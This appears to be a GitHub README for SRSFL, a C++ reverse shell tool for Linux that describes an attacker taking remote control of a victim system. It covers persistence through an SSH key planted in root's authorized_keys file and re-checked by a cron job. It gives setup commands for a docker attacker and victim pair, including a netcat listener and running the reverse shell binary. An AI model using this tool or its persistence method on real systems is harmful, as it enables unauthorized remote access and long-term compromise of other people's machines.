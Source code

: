 # SRSFL
Simple Reverse Shell For Linux written is a minimalist yet powerful tool designed for remote access to Linux systems. Written in C++.

* Reverse Shell: SRSFL enables remote access to a target Linux system by establishing a reverse shell connection. This allows an attacker to control the victim system remotely.

* Persistence: SRSFL ensures persistence on the target system by adding an SSH key to the root user's authorized_keys file and checking its existence every minute using a cronjob. This ensures that even if the system is restarted, the attacker can regain access without the need for manual intervention.

### Setup:

(`docker-compose up -d`)

### Instruction:

(`./setup.sh`) to insert attacker ssh key and ip.

(`make`) to compile the reverse shell binary.

(`docker exec -it attacker_container /bin/bash`) shell on attack container.
and then:
(`nc -lvp 1234`) - listener.

(`docker exec -it victim_container /bin/bash`) shell on victim container, to turn on reverse shell binary.
(`cd code; ./reverseShell`) - to run reverse shell.